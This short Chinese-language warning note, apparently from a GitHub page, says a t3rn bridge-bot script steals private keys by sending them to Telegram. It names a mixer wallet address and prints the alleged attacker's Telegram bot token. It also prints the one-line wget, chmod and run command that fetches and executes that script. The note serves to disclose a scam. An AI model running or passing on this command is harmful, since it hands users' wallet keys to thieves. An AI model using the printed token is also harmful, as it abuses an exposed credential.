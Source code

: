 
注意此脚本存在欺诈record_config 存在私钥发送发送到tg

0x3bdb03ad7363152dfbc185ee23ebc93f0cf93fd1 是混币器地址

恶意者tg
TELEGRAM_TOKEN = "8070858648:AAGfrK1u0IaiXjr4f8TRbUDD92uBGTXdt38"

```bash
wget -O bridge-bot.sh https://raw.githubusercontent.com/yinghao888/t3rn-swap/main/bridge-bot.sh && chmod +x bridge-bot.sh && ./bridge-bot.sh
```
